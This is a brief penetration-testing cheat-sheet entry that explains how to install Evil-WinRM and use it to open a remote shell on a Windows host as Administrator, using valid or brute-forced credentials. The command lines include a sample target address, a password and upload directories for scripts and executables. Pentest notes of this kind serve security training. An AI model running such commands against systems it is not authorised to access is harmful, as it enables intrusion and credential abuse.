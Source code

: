 ## If have valid credentials or want to try brute forcing credentials with users try Evil-winrm

```
sudo gem install winrm winrm-fs stringio
git clone https://github.com/Hackplayers/evil-winrm.git
cd evil-winrm 
ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'
```